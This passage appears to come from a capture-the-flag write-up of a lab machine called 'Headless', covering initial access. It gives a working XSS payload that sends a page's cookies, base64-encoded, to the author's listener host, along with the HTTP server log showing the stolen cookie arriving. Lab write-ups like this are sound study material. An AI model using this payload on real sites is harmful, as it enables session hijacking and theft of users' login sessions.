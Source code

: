## Initial Access

### XSS to get the cookie
I noticed that the it wasn't using HttpOnly, which meant I might be able to grab the cookie

![img](/assets/img/Headless/4.webp)

XSS payload to steal the cookie
```js
<script>var i=new Image(); i.src="http://10.10.14.5:8001/?cookie="+btoa(document.cookie);</script>
```

![img](/assets/img/Headless/5.webp)

I set up a simple HTTP server on my machine to capture the cookie
```bash
$ python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.10.11.8 - - [20/Jul/2024 13:46:35] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```
